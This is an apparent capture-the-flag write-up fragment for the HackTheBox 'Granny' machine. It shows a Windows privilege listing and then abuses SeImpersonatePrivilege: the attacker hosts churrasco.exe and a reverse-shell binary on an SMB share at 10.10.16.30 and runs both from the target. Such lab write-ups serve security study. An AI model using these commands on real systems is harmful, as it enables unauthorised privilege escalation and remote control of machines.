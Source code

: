 ```bash

Group Name                       Type             SID                                            Attributes
================================ ================ ============================================== ==================================================
NT AUTHORITY\NETWORK SERVICE     User             S-1-5-20                                       Mandatory group, Enabled by default, Enabled group
Everyone                         Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
GRANNY\IIS_WPG                   Alias            S-1-5-21-1709780765-3897210020-3926566182-1005 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users    Alias            S-1-5-32-559                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE             Well-known group S-1-5-6                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization   Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                            Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

> Abuse `SeImpersonatePrivilege` token as we did in [[HackTheBox Writeup - Grandpa#Root Flag#Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation]]
{: .prompt-info }

```bash
cd $(find ~/htb/ -type d -iname Grandpa)/smb
fuser -k 445/tcp
smbserver.py s .
```

```bash
c:\windows\system32\inetsrv>\\10.10.16.30\s\churrasco.exe "cmd /c start \\10.10.16.30\s\rev.exe"
\\10.10.16.30\s\churrasco.exe "cmd /c start \\10.10.16.30\s\rev.exe"
```
